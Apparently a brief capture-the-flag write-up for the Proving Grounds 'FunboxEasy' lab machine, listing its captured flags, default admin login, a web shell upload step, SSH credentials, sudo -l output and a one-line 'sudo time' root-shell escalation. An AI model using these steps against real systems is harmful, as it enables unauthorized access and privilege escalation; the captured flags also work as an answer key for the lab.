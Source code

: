 # Proving Grounds FunboxEasy

> Saikat Karmakar | Mar 12:2021

```
ip = 192.168.77.111
```
-------------------------------------------------------------------------------

1. user flag
```
937c03c17e7d7670bbdd110de3676803
```
2. root flag
```
a45ece2835ae6839adc31924cfffbfb5
```



--
-----------
***Notes***
-----------
http://192.168.77.111/store/admin.php
login-> admin:admin

http://192.168.77.111/store/admin_book.php
uplaod the shell

ssh creds
```
tony : yxcvbnmYYY
```

```bash
tony@funbox3:~$ sudo -l
Matching Defaults entries for tony on funbox3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tony may run the following commands on funbox3:
    (root) NOPASSWD: /usr/bin/yelp
    (root) NOPASSWD: /usr/bin/dmf
    (root) NOPASSWD: /usr/bin/whois
    (root) NOPASSWD: /usr/bin/rlogin
    (root) NOPASSWD: /usr/bin/pkexec
    (root) NOPASSWD: /usr/bin/mtr
    (root) NOPASSWD: /usr/bin/finger
    (root) NOPASSWD: /usr/bin/time
    (root) NOPASSWD: /usr/bin/cancel
    (root) NOPASSWD: /root/a/b/c/d/e/f/g/h/i/j/k/l/m/n/o/q/r/s/t/u/v/w/x/y/z/.smile.sh

```

```bash
sudo /usr/bin/time /bin/bash
```

